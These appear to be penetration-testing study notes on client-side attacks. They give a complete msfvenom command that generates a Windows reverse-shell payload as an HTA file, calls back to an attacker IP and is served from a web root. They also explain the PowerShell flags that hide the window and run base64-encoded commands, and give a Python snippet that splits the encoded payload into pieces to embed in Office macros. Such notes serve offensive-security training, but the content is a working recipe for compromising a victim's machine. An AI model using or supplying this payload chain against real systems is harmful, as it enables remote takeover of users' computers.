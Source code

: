 # Client Side Attacks

Generate and serve a client side attack that can be accessed from a browser on the target using HTML applications.  
`sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.240 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta`  

Looking at evil.hta:
* -nop, is shorthand for -NoProfile,1 which instructs PowerShell not to load the PowerShell user profile. When PowerShell is started, it will, by default, load any existing user's profile scripts, which might negatively impact the execution of our code. This option will avoid that potential issue.
* -w hidden (shorthand for -WindowStyle2 hidden) to avoid creating a window on the user's desktop.
* -e flag (shorthand for -EncodedCommand) allows us to supply a Base64 encoded PowerShell script directly as a command line argument.

Split a base64 script with Python:
```python
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

Useful for macros which have a string literal max length of 255, unless it is stored in a variable.

